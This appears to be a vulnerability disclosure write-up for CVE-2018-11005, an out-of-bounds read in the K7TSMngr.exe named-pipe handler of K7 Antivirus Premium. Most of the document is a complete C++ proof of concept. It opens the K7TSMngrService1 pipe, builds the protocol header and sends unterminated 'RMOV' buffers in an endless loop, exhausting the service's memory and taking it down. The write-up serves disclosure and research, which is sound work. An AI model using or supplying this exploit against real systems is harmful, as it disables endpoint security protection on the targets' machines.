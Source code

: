 # CVE-2018-11005

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Using the named pipe \\\\.\\pipe\\K7TSMngrService1 and the function code 0x1003E, many of the commands **assume** there is a string following the 4 byte command/action and call *lstrlenA* on it. However, there is no check in place to verify this. Therefore you can pass in a command buffer without any zero terminators in and it will read off the end, potentially causing a crash of the service. The PoC code would have demonstrated this, however there is also a memory leak in the service and the PoC just causes the service to consume memory until it stops working! :(

```C++
typedef struct _unk_1003E
{
    DWORD dwAction;
    CHAR szSomething[256];  // This can be any length up to 0x8000 - 4
}


// sub_40CC40 snippet...

if ( (unsigned int)dwInSize < 4 || (unsigned int)dwInSize > 0x8000 )
    return 0;
dwCode = pInput->dwAction;
pszInputString = pInput->szSomething;
if ( pInput->dwAction == 'RMOV' )
{
    pszSource = pInput->szSomething;

    // VULN: pInput is the buffer I supply and szSomething is +4 into that. If I don't put a zero 
    // terminator on that string it is an out-of-bounds read. This could cause an access violation
    // crashing the service (which is useful for another bug), or potentially if it doesn't crash
    // could use other parts of the heap as part of a registry key, etc. There are a few options
    pszDest = &pszInputString[lstrlenA(pInput->szSomething) + 1];   

    // VULN: Same as above
    pInput = *(unk_1003E **)&pszDest[lstrlenA(pszDest) + 1];
    dwInSize = 0;
```
    

# PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

//
// Vulnerability:
//		Type: 
//			Out of Bounds Read, leading to a likely DoS
//
//		Description:
//			The general form of the put buffer is <4 Byte Id><Zero Terminated String>x2
//			However, there are no actual checks that there is a zero terminator within
//			the length of the buffer. Therefore it is easy to just send through a load
//			of buffers without any zeroes and when the services performs
//
//		Result:
//			While you can see an over-read happning, and it reading into the next heap entry
//			this PoC doesn't actually cause a crash regularly because of a memory leak in
//			the service. Specifically when you handle a Pipe Message, you allocate some
//			memory from the heap, but you don't appear to free that up everywhere. So 
//			spamming it with loads of requests, just eats up RAM until the process fails.
//
void Vuln_CodeFlaw_BufferOverReadExample()
{
	srand(0);

	// Hammer it :)
	while (TRUE)
	{
		// Action 'RMOV' 
		DWORD dwAction = 0x524D4F56;

		DWORD dwSize = rand() % 0x8000;
		if (dwSize < 4)
		{
			dwSize += 4;
		}
		PVOID pData = AllocPrecise(dwSize);

		memset(pData, 'A', dwSize);
		memcpy(pData, &dwAction, 4);

		// Setup our pipe connection
		if (!InitPipe())
		{
			printf("Error: InitPipe failed\r\n");
			VirtualFree(pData, 0, MEM_RELEASE);
			continue;
		}

		// This will trigger an over-read of the buffer.
		if (!CallPipeFunction(0x1003E, (PBYTE)pData, dwSize, NULL, 0))
		{
			printf("Error: CallPipeFunction failed");
			VirtualFree(pData, 0, MEM_RELEASE);
			continue;
		}

		VirtualFree(pData, 0, MEM_RELEASE);

		if (g_hPipe != INVALID_HANDLE_VALUE)
		{
			CloseHandle(g_hPipe);
			g_hPipe = INVALID_HANDLE_VALUE;
		}
	}
}


int main(int argc, char** argv)
{
	Vuln_CodeFlaw_BufferOverReadExample();
}


```

